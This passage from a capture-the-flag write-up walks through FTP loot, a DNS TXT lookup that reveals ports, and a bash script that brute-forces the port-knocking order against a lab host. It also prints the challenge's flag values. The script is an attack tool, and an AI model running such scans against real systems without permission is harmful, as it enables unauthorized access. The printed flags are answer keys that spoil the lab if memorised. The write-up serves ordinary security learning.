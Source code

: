 ```bash
226 Transfer complete.
141 bytes received in 0.000263 seconds (524 kbytes/s)
```

Two files, first with flag, the second with some interesting notes.

```bash
$ cat flag1
79eb173ecb02d12d6d4832881be2cf23
```

- __FLAG1: 79eb173ecb02d12d6d4832881be2cf23__

```bash
$ cat note
Jerry, I finally got a chance to update our internal social media platform (bookface.com).

Can you signup and like my doggo photos?

Thanks
```

Ouu, there is also some domain, lets look on it, if we can find there something interesting.
After couple of requests to different types of DNS records, I found the the right one. 
In TXT record there are flag and also some ports, but wait. Why was there so many ports open?

```bash
host -t txt bookface.com 10.10.219.90                   
Using domain server:     
Name: 10.10.219.90
Address: 10.10.219.90#53
Aliases:          
                            
bookface.com descriptive text "Ports: 6786 9893 8748 3443 - Who cares about order tho right?"
bookface.com descriptive text "Flag2:a17f17ba86d8271da60ed8436667f412"
```

- __FLAG2: a17f17ba86d8271da60ed8436667f412__

It looks like port knocking now. But according to comment we don't know order of ports, 
so I wrote port-knocking-enumeration to brute force the order.

source: port-knocking-enumeration.sh
```bash
#!/bin/bash

porta=(8748 3443 6786 9893)
portb=(6786 9893 8748 3443)
portc=(9893 8748 3443 6786)
portd=(3443 6786 9893 8748)
ip="10.10.213.66"

for a in ${porta[@]}; do
        for b in ${portb[@]}; do
                for c in ${portc[@]}; do
                        for d in ${portd[@]}; do
                                echo "$a $b $c $d"
                                knock $ip $a $b $c $d && nmap -p 22 $ip 2>&1 | grep "open" && echo "[SUCCESS!!] $a $b $c $d" && exit
                                sleep 1
                        done
                done
        done
done
```
